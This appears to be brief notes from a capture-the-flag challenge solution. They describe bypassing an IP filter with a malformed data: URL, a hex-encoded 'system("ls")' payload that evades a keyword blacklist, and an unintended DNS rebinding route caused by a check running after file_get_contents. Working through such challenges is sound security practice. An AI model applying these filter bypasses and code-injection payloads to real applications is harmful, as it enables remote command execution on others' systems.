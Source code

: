 #INTENDED

Bypass filters by using data URLs

https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs

by providing invalid mediatype, the first part is ignored, 
and the ip filter is bypassed

`data://127.0.0.1/,"\x73\x79\x73\x74\x65\x6d"("\x6c\x73");`

hexadecimal to bypass blacklist (it could also be done with backticks `)

#UNINTENDED

DNS rebinding 

gethostbyname($parsedUrl['host']); is called after @file_get_contents($url, false, $context); 

